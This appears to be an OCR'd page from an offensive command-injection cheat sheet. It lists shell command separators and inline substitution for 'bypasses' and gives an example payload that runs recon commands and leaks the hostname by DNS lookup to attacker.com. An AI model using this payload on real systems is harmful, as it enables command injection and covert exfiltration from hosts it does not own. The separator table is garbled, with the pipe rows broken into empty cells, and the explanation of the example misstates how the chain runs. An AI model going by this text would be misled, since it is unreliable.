 ***

#### **📌 Command Separators (Use Them All!)**

| Separator | Effect                                           |
| --------- | ------------------------------------------------ |
| `&`       | Runs next command in **background**.             |
| `&&`      | Runs next command **only if previous succeeds**. |
| \`        |                                                  |
| \`        | \`                                               |
| `;`       | Runs commands sequentially, ignoring failures.   |
|           | (Newline) Executes next command separately.      |

**Example (Using All Separators)**

```bash
whoami && id || uname -a ; nslookup $(hostname).attacker.com &
```

✅ **Executes everything smartly**:

* Runs `whoami`, then `id` if `whoami` succeeds.
* If `whoami` fails, runs `uname -a`.
* Always sends system info via DNS lookup.

***

#### **📌 Inline Execution for Bypasses**

| Method          | Effect                           |
| --------------- | -------------------------------- |
| `` `command` `` | Executes and substitutes output. |
| `$(command)`    | Safer alternative to backticks.  |

**Example**

```bash
echo "User: $(whoami)"
```

✅ Expands to `echo "User: root"`.
